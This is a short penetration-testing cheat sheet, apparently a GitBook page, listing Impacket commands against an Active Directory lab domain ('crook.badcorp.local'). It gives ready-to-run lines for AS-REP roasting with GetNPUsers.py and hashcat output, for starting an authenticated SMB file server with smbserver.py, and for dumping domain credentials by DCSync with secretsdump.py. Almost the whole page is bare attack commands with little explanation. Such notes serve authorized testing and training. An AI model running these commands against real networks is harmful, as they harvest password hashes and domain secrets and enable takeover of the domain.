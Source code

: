 # Impacket

## Enumeration

{% hint style="info" %}
**-format hashcat to export a formated hash**
{% endhint %}

### Account with doesn't require Kerberos Auth

```csharp
./GetNPUsers.py -dc-ip 10.110.0.222 -request 'crook.badcorp.local/' -format hashcat
```

## File server

```csharp
sudo ./smbserver.py Test /tmp -smb2support -user polo -password test123 
```

## DSYNC

```csharp
./secretsdump.py crook.badcorp.local/User:Password@10.110.0.222
```

